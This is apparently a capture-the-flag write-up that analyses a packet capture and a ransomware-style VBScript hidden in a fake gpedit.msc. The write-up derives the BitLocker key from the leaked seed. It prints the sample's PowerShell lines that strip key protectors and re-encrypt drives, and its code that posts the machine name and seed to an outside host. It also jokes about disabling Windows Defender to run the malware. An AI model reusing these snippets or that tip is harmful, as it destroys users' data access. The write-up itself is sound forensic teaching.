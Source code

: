 # Writeup: Honey, I shrunk the skids

We are given a fairly small .pcap file that we open with Wireshark. Upon filtering for HTTP traffic, we find the first interesting request.

![Alt text](images/request.PNG)

It seems that a zip file was sent to the target machine. We can extract the .zip file by "following the HTTP Stream" in Wireshark and copying the raw bytes. Now, of course, we could paste these bytes into a new file using a hex editor. However, I like to promote the use of unnecessary online tools. So, I paste them into ![This Website](https://tomeko.net/online_tools/hex_to_file.php?lang=en) and download the file.

If they save the files being processed, that is what we call a "no-no" in privacy terms. Let’s hope they don’t try to open the file on a Windows machine.

The downloaded file is a zip file containing a file called gpedit.msc.

The first hint about what this file is comes when we copy it to a Windows machine and it gets deleted immediately. This file might be malware! Here’s a pro tip for people wanting an EPT-Token: Turn off your Windows Defender and run gpedit.msc. It will irrecoverably encrypt your entire system, BUT you will also get an EPT-Coin.

Upon analyzing gpedit.msc, we stumble upon this large block of URL-encoded characters that seems to be more code packed in our original script:
![Alt text](images/text_block.PNG)
By utilizing yet another online tool, [CyberChef](https://gchq.github.io/CyberChef/), we decode the characters and get another Visual Basic script!

This script is quite interesting indeed
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34) & Chr(39) & strRandom & Chr(39) & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then End If
```
This part of the scripts in essence enables bitlocker encryption on some drives. The key used for the encryption seems to be "strRandom".

strRandom is defined in the following code snippet:


```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```
Here we can see that a seed for Rnd() is generated using several characteristics of the target machine.
strRandom is then built using Rnd(). 

Since Rnd() is deterministic we could recover strRandom if we had the seed. 

As we can see in this snippet the seed is actually sent to http://192.168.77.136/updatelog

```vbscript
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```


And lo and behold we can find that request in our .pcap file.

![Alt text](images/request_seed.PNG)

Decoding the base64 string we get "DESKTOP-59C1C3D	43906.83" where 43906.83 is our seed.


By writing the strRandom function ourselves and initializing the Rnd() function with the seed "43906.83" 


```vbscript
Dim strRandom
Dim characters
Dim numericSeed
Dim i
Dim randomNum
Dim fso
Dim outputFile

' Set your numeric seed directly. For example:
' numericSeed = 43906.83  ' Replace this with your actual numeric seed value
numericSeed = "43906.83"
' Randomize with the numeric seed
Rnd(-1)
Randomize numericSeed

' Define characters to choose from
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
strRandom = ""

' Generate random characters
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))  ' Using Rnd to generate a random number
    strRandom = strRandom & Mid(characters, randomNum + 1, 1)  ' Build the random string
Next

' Show the result in a message box
MsgBox "The random string is: " & strRandom

' Create a FileSystemObject to write the string to a file
Set fso = CreateObject("Scripting.FileSystemObject")

' Create or overwrite the output file
Set outputFile = fso.CreateTextFile("randomString.txt", True)

' Write the random string to the file
outputFile.WriteLine strRandom
outputFile.WriteLine numericSeed

' Close the file
outputFile.Close

' Clean up
Set outputFile = Nothing
Set fso = Nothing


```


we are able to generate the following key:
"_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb"

If we decrypt the volume we can access it and get our flag: EPT{it_works_the_machine_works!}


